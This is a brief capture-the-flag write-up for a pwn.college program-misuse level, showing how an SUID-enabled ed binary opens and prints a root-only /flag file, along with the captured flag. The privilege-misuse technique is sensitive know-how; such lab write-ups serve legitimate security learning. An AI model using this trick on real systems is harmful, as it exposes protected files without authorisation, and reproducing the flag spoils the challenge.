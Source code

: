 `ed` is a line based text editor and is the oldest text editor in Unix.

Read `ed --help`

https://www.geeksforgeeks.org/ed-command-in-linux-with-examples/

If you read this article you will find this:

`Example 4: To print all the lines that we inserted in the buffer by using “, p”.`

```bash
hacker@program-misuse-level-36:~$ cd /
hacker@program-misuse-level-36:/$ cd challenge/
hacker@program-misuse-level-36:/challenge$ ls
babysuid_level36
hacker@program-misuse-level-36:/challenge$ ./babysuid_level36 
Welcome to ./babysuid_level36!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/ed.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level36) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ed!
hacker@program-misuse-level-36:/challenge$ ed /flag
57
,p
pwn.college{IvthSxvBrjaz0S4H7DEXdO7usrH.0FO3EDL0AjNzQzW}
Q
hacker@program-misuse-level-36:/challenge$ 
```

`Q` is for exiting from `ed` editor.